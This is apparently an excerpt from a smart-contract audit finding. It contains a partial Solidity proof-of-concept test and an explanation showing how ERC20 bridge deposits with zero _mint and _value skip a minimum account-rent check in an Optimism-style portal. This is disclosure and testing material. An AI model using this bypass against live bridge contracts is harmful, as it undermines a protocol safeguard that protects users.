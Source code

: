 ```solidity
            abi.encodePacked(
                uint256(0),           // _mint = 0 bypasses MIN_BRIDGE_VALUE check
                uint256(0),           // _value = 0 bypasses MIN_BRIDGE_VALUE check
                gasLimit,            
                false,               
                depositData          
            )
        );

        optimismPortal.depositTransaction(
            recipient_l2,    
            0,              // _value = 0 bypasses check
            gasLimit,       
            false,          
            depositData     
        );

        // Verify MIN_BRIDGE_VALUE check was bypassed
        assertLt(0, optimismPortal.MIN_BRIDGE_VALUE(), "MIN_BRIDGE_VALUE should be non-zero");
        
        // Verify no ETH was sent for account rent
        address recipient = address(uint160(uint256(recipient_l2)));
        assertEq(recipient.balance, 0, "L2 account should have no ETH for rent");
        
        // Show tokens were transferred but account has no rent
        assertEq(token.balanceOf(address(optimismPortal)), bridgeAmount, "Portal should have tokens");
        assertEq(recipient.balance, 0, "Account has no ETH for rent");

        vm.stopPrank();
    } 
}
```

For ERC20 bridges, both _mint and _value are 0 because:

* _mint is 0 because:
* _mint comes from msg.value
ERC20 deposit functions are not payable.

Therefore no ETH can be sent (msg.value must be 0)

* _value is 0 because:
For ERC20 transfers, the actual token amount is tracked separately
The `_value` parameter in the deposit function is used for ETH value tracking Since we're transferring ERC20s, not ETH, `_value` is set to 0.
This Poc proves few things:

- that ERC20 token bridges can bypass the minimum account rent requirement (0.00089088 ETH) by exploiting how the rent validation check works:

```solidity
    // This check is bypassed when both _mint (msg.value) and _value are 0
   if ((_mint != 0 && _mint < MIN_BRIDGE_VALUE) || (_value != 0 && _value < MIN_BRIDGE_VALUE)) {
    revert ValueTooLow();
}
```
